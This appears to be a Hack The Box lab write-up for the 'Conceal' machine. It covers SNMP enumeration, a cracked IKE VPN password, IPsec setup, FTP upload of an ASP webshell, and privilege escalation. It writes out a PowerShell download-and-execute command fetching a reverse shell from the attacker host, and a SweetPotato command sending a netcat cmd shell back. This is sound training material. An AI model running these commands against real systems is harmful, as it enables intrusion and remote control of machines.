

**Start 09:36 22-03-2025**

---
```
Scope:
10.10.10.116
```
## Recon

### Nmap

The `nmap` scan wouldn't show any ports:


Eventhough the `ping` command worked:


I figured the firewall settings might be blocking our scans.


This time the port `80` returned as `filtered`. Before wasting more time on this though, I decided to scan `UDP` ports first.

```bash
sudo nmap -sC -sV -F conceal -sU -T5 --min-rate=5000 -Pn -vvvv
```

Right away I notice the following:


:::note
This then took a while to scan
:::

Finally the results came in:

```bash
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 127
| snmp-win32-software: 
|   Microsoft Visual C++ 2008 Redistributable - x64 9.0.30729.6161; 2021-03-17T15:16:36
|   Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161; 2021-03-17T15:16:36
|_  VMware Tools; 2021-03-17T15:16:36
| snmp-sysdescr: Hardware: AMD64 Family 25 Model 1 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)
|_  System uptime: 37m49.28s (226928 timeticks)
| snmp-netstat: 
|   TCP  0.0.0.0:21           0.0.0.0:0
|   TCP  0.0.0.0:80           0.0.0.0:0
|   TCP  0.0.0.0:135          0.0.0.0:0
|   TCP  0.0.0.0:445          0.0.0.0:0
|   TCP  0.0.0.0:49664        0.0.0.0:0
|   TCP  0.0.0.0:49665        0.0.0.0:0
|   TCP  0.0.0.0:49666        0.0.0.0:0
|   TCP  0.0.0.0:49667        0.0.0.0:0
|   TCP  0.0.0.0:49668        0.0.0.0:0
|   TCP  0.0.0.0:49669        0.0.0.0:0
|   TCP  0.0.0.0:49670        0.0.0.0:0
|   TCP  10.10.10.116:139     0.0.0.0:0
|   UDP  0.0.0.0:123          *:*
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:500          *:*
|   UDP  0.0.0.0:4500         *:*
|   UDP  0.0.0.0:5050         *:*
|   UDP  0.0.0.0:5353         *:*
|   UDP  0.0.0.0:5355         *:*
|   UDP  0.0.0.0:61432        *:*
|   UDP  10.10.10.116:137     *:*
|   UDP  10.10.10.116:138     *:*
|   UDP  10.10.10.116:1900    *:*
|   UDP  10.10.10.116:51122   *:*
|   UDP  127.0.0.1:1900       *:*
|_  UDP  127.0.0.1:51123      *:*
| snmp-win32-users: 
|   Administrator
|   DefaultAccount
|   Destitute
|_  Guest
500/udp open  isakmp  udp-response ttl 127
| ike-version: 
|   vendor_id: Microsoft Windows 8
|   attributes: 
|     MS NT5 ISAKMPOAKLEY
|     RFC 3947 NAT-T
|     draft-ietf-ipsec-nat-t-ike-02\n
|     IKE FRAGMENTATION
|     MS-Negotiation Discovery Capable
|_    IKE CGA version 1
Service Info: OS: Windows 8; CPE: cpe:/o:microsoft:windows:8, cpe:/o:microsoft:windows
```

We notice that `snmp` even displays `netstat` for us with multiple `tcp` ports visible! 
Other than that we've also found the `500` port to be open with the **isakmp** service, which I haven't found before.

### 161/UDP - SNMP

I brute forced the community string using `onesixtyone`:


And then went on with `snmpwalk`:


We find some sort of **IKE VPN password**, supposedly for the service on port `500`?

```
9C8B1A372B1878851BE2C097031B6E43
```

The string under it appears to be a name maybe? Let's try cracking the found hash:


Nice! 

```
Conceal
Dudecake1!
```

### 500/UDP - ISAKMP

I proceded to check out what this service even was in the first place.


To find out more on how to test this service I will use [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html):




I tried it out myself:


This matches our situation.

### Connecting to IPSEC VPN

In order to actually connect we will now have to edit the `/etc/ipsec.conf` and `/etc/ipsec.secrets` files and then start up the vpn.


Now that we have edited these 2 we can go ahead and start up the vpn in order to set up the connection.

If all went accordingly we should see the following result:


Now I reran `nmap` again and finally started seeing results:


## Nmap - Post VPN

```bash
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24024/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 10757/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 61491/udp): CLEAN (Timeout)
|   Check 4 (port 14517/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-03-22T10:22:01
|_  start_date: 2025-03-22T08:36:30
```

### 21/TCP - FTP

Luckily for us port `21` has anon login, let's check it out.


But it appears to be empty...

### 445/TCP - SMB


No luck.

Password spraying didn't yield anything either:


### 139/TCP - RPCclient


No luck.

### 80/TCP - HTTP

I started up `feroxbuster` and let it enumerate the directories, while this took a super long time I found an endpoint and checked it out right away:


Seems like some sort of upload page, however there's nothing on here.


No further endpoints were found.

At this point I figured we could use the `ftp` server to upload a reverse shell which we could then initiate from the `/upload` endpoint.


Indeed we can upload files!

## Webshell

I then went ahead and tested whether I could find the files on the `/upload` endpoint:


Let's try uploading a webshell.


We also get the physical path:


I then went on and created a `cmd.asp` shell:


I can now try and issue commands via the webshell:


## Foothold

I will now copy the `Invoke-PowerShellTcp.ps1` shell by [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1):


```bash
curl http://conceal/upload/cmd.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.16.2/Invoke-PowerShellTcp.ps1%27)
```


It worked, hell yeah.

### Privs


Makes sense since we're the service user for running the webserver.  

This HIGHLY LIKELY means that priv esc will at least be a bit easier.

### user.txt


## Privilege Escalation

I downloaded over `SweetPotato.exe` and ran it:

```powershell
./sweet.exe -e PrintSpoofer -p nc.exe -a "10.10.16.2 443 -e cmd"
```


### proof.txt


---

**Finished 19:27 22-03-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
